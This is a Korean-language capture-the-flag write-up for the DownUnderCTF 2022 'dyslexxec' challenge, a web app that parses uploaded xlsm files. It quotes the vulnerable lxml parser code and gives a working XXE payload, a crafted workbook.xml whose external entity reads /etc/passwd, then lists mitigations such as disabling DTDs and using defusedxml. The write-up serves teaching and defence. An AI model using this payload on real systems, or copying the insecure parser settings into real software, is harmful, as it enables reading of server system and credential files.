

# dyslexxec

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | dyslexxec |
| 원본 대회 | DownUnderCTF 2022 |
| 분야 | Web · XXE |
| 난이도 | 중급 · 약 3/5 |
| 접속 주소 | `http://localhost:1337` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약



- xlsm 파일을 올릴 수 있고 메타데이터를 출력해주는 웹앱
- xlsm파일은 vba가 들어간 엑셀파일  vba는 visual basic으로 ms 프로그램에서 작동하는 언어
- 제공해주는 xlsm파일에서 workbook.xml과 파싱되는 부분에서 xml injection

---

# 2. 문제 분석

Source = xlsm파일
Processing/Validation =getMetadata, findInternalFilepath
Sink = etree.XMLParser(load_dtd=True,resolve_entities=True)
Target = /etc/passwd← 

```python
def view_metadata():
    #get시에 에러 
    if request.method == "GET": 
        return render_template("error_upload.html")

    
    f=request.files["file"]
    tmpFolder="./uploads/"+str(uuid.uuid4()); os.mkdir(tmpFolder)
    filename=tmpFolder+"/"+secure_filename(f.filename); f.save(filename)#임시 이름으로 저장
    #getmetadata
    try:
        properties=getMetadata(filename); #workbook에서 프로퍼티 가져옴
        extractWorkbook(filename,tmpFolder)#workbook.xml파일만 추출
        workbook=tmpFolder+"/"+WORKBOOK; 
        properties.append(findInternalFilepath(workbook))<- sink 

    except Exception: 
        return render_template("error_upload.html")
    finally: shutil.rmtree(tmpFolder)
    return render_template("metadata.html",items=properties)
    
    
    def findInternalFilepath(filename):
    try:
        prop=None
        parser=etree.XMLParser(load_dtd=True,resolve_entities=True) #load_dtd=True 이 부분이 sink다. 
        tree=etree.parse(filename,parser=parser); ## 취약점 발생 가능 지점
        root=tree.getroot()
        internalNode=root.find(".//{http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac}absPath")
        if internalNode != None: prop={"Fieldname":"absPath","Attribute":internalNode.attrib["url"],"Value":internalNode.text}#반환
        return prop
    except Exception:
        print("couldnt extract absPath"); return None
    
    

```

XXE(XML 외부 엔티티 삽입) 취약점은 서버가 보안 설정이 미흡한 XML 파서를 통해 신뢰할 수 없는 XML 데이터를 처리할 때, 공격자가 외부 엔티티를 정의하여 서버 내부 파일 유출이나 내부 네트워크 스캔을 시도하는 보안 취약점

---

# 3. 풀이과정

## 1. xlsm파일

exel, powerpoint등 마이크로소프트 프로그램들은 사실 zip파일, 확장자를 zip으로 풀어서 압축해제 가능하다. 


```python
sample.xlsm
├─ [Content_Types].xml          # 내부 파일들의 형식(Content-Type) 정의
├─ _rels/
│  └─ .rels                    # 문서 내부 파일 간 연결 관계
├─ docProps/
│  ├─ core.xml                 # 작성자, 제목, 생성일 등 기본 메타데이터
│  └─ app.xml                  # Excel 버전, 시트 수 등 응용 프로그램 정보
├─ xl/
│  ├─ workbook.xml             # 시트 목록, 활성 시트 등 워크북 전체 구조
│  ├─ _rels/
│  │  └─ workbook.xml.rels     # workbook.xml과 실제 시트 파일 연결
│  ├─ worksheets/
│  │  ├─ sheet1.xml            # 1번 시트의 실제 셀 데이터
│  │  └─ sheet2.xml            # 2번 시트의 실제 셀 데이터
│  ├─ sharedStrings.xml        # 여러 셀에서 공유하는 문자열 저장
│  ├─ styles.xml               # 셀 서식, 폰트, 숫자 형식 등
│  ├─ theme/
│  │  └─ theme1.xml            # 문서 테마 정보
│  └─ vbaProject.bin           # VBA 매크로 코드
```

## 2. workbook.xml

fizzbuzz에서 workbook.xml 변경

```python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE workbook [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<workbook
    xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main"
    xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac">

    <workbookPr/>
    <workbookProtection/>

    <bookViews>
        <workbookView
            visibility="visible"
            minimized="0"
            showHorizontalScroll="1"
            showVerticalScroll="1"
            showSheetTabs="1"
            tabRatio="600"
            firstSheet="0"
            activeTab="0"
            autoFilterDateGrouping="1"/>
    </bookViews>

    <sheets>
        <sheet
            xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
            name="FizzBuzz"
            sheetId="1"
            state="visible"
            r:id="rId1"/>
    </sheets>

    <definedNames/>
    <calcPr calcId="124519" fullCalcOnLoad="1"/>

    <x15ac:absPath url="test">&xxe;</x15ac:absPath>

</workbook>
```


---

# 4. 보안조치

- XML 파서에서 DTD 및 외부 엔티티 해석을 비활성화한다.
- 신뢰할 수 없는 XML 파일을 그대로 파싱하지 말고 허용된 구조만 검증한다.
- 가능하면 보안 설정이 적용된 XML 파서나 `defusedxml` 같은 안전한 라이브러리를 사용한다.

---

# 5. 기록